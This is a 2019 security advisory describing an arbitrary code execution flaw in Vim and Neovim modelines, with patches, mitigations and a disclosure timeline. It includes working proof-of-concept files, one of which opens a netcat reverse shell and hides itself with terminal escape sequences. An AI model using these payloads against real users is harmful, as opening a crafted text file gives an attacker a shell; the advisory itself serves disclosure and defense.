 *by Arminius ([@rawsec](https://twitter.com/rawsec))*

Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
CVE:     - 
Date:    2019-06-04
Author:  Arminius (@rawsec)
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create `poc.txt`:

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.

Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`. (`cat
-v` reveals the actual content.)

`shell.txt`:

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file types,
including plain `.txt`. A typical modeline:

    /* vim: set textwidth=80 tabstop=8: */

For security reasons, only a subset of options is permitted in modelines, and
if the option value contains an expression, it is executed in a sandbox: [[1]]

    No other commands than "set" are supported, for security reasons (somebody
    might create a Trojan horse text file with modelines).  And not all options
    can be set.  For some options a flag is set, so that when it's used the
    |sandbox| is effective.

The sandbox is meant to prevent side effects: [[2]]

    The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
    'foldtext' options may be evaluated in a sandbox.  This means that you are
    protected from these expressions having nasty side effects.  This gives some
    safety for when these options are set from a modeline.

However, the `:source!` command (with the bang [`!`] modifier) can be used to
bypass the sandbox. It reads and executes commands from a given file as if
*typed manually*, running them after the sandbox has been left. [[3]]

    :so[urce]! {file}       Read Vim commands from {file}.  These are commands
                            that are executed from Normal mode, like you type
                            them.

Thus, one can trivially construct a modeline that runs code outside the sandbox:

    # vim: set foldexpr=execute('\:source! some_file'):

An additional step is needed for Neovim which blacklists `execute()`: [[4]]

    execute({command} [, {silent}])                         *execute()*
                    Execute {command} and capture its output.
                    [...]
                    This function is not available in the |sandbox|.

Here, `assert_fails()` can be used instead, which takes a `{cmd}` argument, too: [[5]]

    assert_fails({cmd} [, {error} [, {msg}]])               *assert_fails()*
                    Run {cmd} and add an error message to |v:errors| if it does
                    NOT produce an error.

The following modeline utilizes a fold expression to run `source!  %` to
execute the current file, which in turn executes `uname -a || "(garbage)"` as a
shell command:

    :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

Additionally, the Neovim-only function `nvim_input()` is vulnerable to the same
approach via e.g.:

     vi:fen:fdm=expr:fde=nvim_input("\:terminal\ uname\ -a"):fdl=0

(In the past, other modeline-related vulnerabilities have been patched in Vim - see [CVE-2002-1377](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1377), [CVE-2016-1248](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1248).)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))

Beyond patching, it's recommended to disable modelines in the vimrc (`set
nomodeline`), to use the [securemodelines](https://github.com/ciaranm/securemodelines/)
plugin, or to disable `modelineexpr` (since patch 8.1.1366, Vim-only) to disallow
expressions in modelines.

Timeline
--------

    - 2019-05-22 Vim and Neovim maintainers notified
    - 2019-05-23 Vim patch released
    - 2019-05-29 Neovim patch released

[1]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/options.txt#L582
[2]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/eval.txt#L13050
[3]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/repeat.txt#L182
[4]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L3247
[5]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L2494
[6]: https://github.com/vim/vim/releases/tag/v8.1.1365
[7]: https://github.com/neovim/neovim/releases/tag/v0.3.6
